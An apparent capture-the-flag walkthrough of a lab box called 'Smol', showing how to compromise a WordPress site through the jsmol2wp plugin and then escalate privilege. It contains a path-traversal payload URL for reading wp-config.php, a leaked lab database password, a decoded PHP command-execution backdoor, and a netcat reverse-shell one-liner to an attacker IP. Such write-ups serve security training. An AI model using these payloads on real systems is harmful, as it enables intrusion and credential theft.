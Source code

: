 ```yaml
---

title: "Smol"  
date: "2025-4-16"  
thumbnail: "/assets/img/thumbnail/smol.png"

---
```


# Smol
---
**Challenges Difficulty: Medium**  
**Category: Privilege Escalation**

---
## Initial Access
Get a cup of coffee ☕ first this will be a little bit long walkthrough 😊
From the end of the page on **http://www.smol.thm** or from **wappalyzer** this website is using **WordPress**
![image](/assets/img/posts/smol/Screenshot_3.png)
so start to scan it with wpscan
```bash
wpscan --url [http://www.smol.thm](http://www.smol.thm/)
```
from the scan result there is a plugin called **jsmol2wp** where did i here this name before🤔 
![image.png](/assets/img/posts/smol/image%2016.png)
Yes this plugin is vulnerable to SSRF [wpscan](https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611/   )
![image.png](/assets/img/posts/smol/image%2017.png)
let's try this payload on our smol.thm
```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```
in the **wp-config.php** file we found a credentials for a user called **wpuser**
![image.png](/assets/img/posts/smol/image%2018.png)

```bash
/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );
```

from the comment section we can get to a login page
![image](/assets/img/posts/smol/Screenshot_1.png)

![image.png](/assets/img/posts/smol/image%2019.png)
and the creds are working 
![image.png](/assets/img/posts/smol/image%2020.png)
in this file note the first important line that refaces to **Hello Dolly** plugin 
![image.png](/assets/img/posts/smol/image%2021.png)

just for fun 😂

![image.png](/assets/img/posts/smol/image%2022.png)
back to our work we should review hello.php file
```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php
```
in this code we can see a part of the code that uses eval which is a vulnerable function but the reset of the line is base64 encoded 
![image.png](/assets/img/posts/smol/image%2023.png)
from the decoding result the statement is 
```
if (isset($_GET["cmd"])) {
    system($_GET["cmd"]);
}
``` 
![image.png](/assets/img/posts/smol/image%2024.png)
adding the cmd parameter we can execute system commands 
![image.png](/assets/img/posts/smol/image%2025.png)
now we want to get a shell from this
![image.png](/assets/img/posts/smol/image%2026.png)

```
busybox nc 10.11.130.37 4444 -e sh
```
and we got our initial access 🎉
## Privilege Escalation
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
As we know that there is a database running let's try to get another user creds from it  
![image.png](/assets/img/posts/smol/image%2027.png)
Cracking this hashes with john we got a password that is obviously for the user diego
![image.png](/assets/img/posts/smol/image%2028.png)

![image.png](/assets/img/posts/smol/image%2029.png)
what i had checked:
❌ sudo -l
❌ /cat /etc/crontab
❌ suid
❌ capabilities

in the home of the user **think** you can find an ssh key that you can use to connect
![image.png](/assets/img/posts/smol/image%2033.png)
in **gege** home there is a .zip file that you can access as other but this file is password protected 
![image.png](/assets/img/posts/smol/image%2035.png)
you can use john to crack this file 
![image.png](/assets/img/posts/smol/image%2034.png)
inside this compressed file there is a **wp-config.php** file that has the credential of **xavi** maybe it's our lucky user 
![image.png](/assets/img/posts/smol/image%2036.png)
finally we escalated our privilege 😮‍💨  
![image.png](/assets/img/posts/smol/image%2037.png)
Great to see you at the end of this rich challenge😊. keep it up 💪
![image.png](/assets/img/posts/smol/image%2038.png)